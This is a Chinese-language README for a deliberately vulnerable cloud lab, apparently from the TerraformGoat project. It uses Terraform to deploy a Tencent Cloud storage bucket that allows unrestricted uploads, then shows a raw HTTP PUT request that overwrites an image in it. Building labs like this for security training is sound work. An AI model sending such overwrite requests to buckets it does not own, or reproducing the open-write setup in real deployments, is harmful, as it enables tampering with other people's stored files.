

# 描述

[English](./README.md) | 中文

这是一个可以快速帮你构建存储桶任意文件上传场景的脚本

## 部署环境

```bash
cd /TerraformGoat/tencentcloud/object_storage_service/unrestricted_file_upload/
```


```bash
vim terraform.tfvars
```

写入你的腾讯云账户AK与KEY还有APPID


```bash
terraform init
```


```bash
terraform apply
```


输入你想要创建的存储桶名称，然后回车，检查是否有问题，输入yes即可


直接访问/hx.png



现在我们可以通过PUT方法来覆盖这个文件


```http
PUT /hx.png HTTP/1.1
Host: uzjusecqwe-.cos.ap-nanjing.myqcloud.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 13

HxSecurityLab
```

随后使用GET方法来获取我们覆盖的图片


## 销毁挑战

```bash
terraform destroy
```


随后回车，输入yes等待销毁即可
